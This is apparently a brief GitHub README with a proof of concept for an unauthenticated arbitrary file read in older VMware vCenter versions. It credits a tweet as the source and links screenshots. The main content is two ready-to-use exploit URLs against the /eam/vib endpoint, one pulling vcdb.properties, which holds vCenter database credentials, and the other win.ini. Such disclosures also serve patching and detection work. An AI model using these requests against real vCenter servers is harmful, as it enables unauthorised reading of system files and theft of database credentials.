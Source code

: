 # VMware vCenter 低版本存在未授权任意文件读取漏洞
# Arbitrary File Read vulnerability in VMware vCenter(Unauthenticated)

## Poc from:
https://twitter.com/ptswarm/status/1316016337550938122

e.g.

```
https://www.jas502n.com/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
https://www.jas502n.com/eam/vib?id=C:\Windows\win.ini
```

![](./vmware.png)
![](./vsphere-client.png)
![](./eam_vib.png)
![](./win.png)
![](./eam_vib_burp.png)
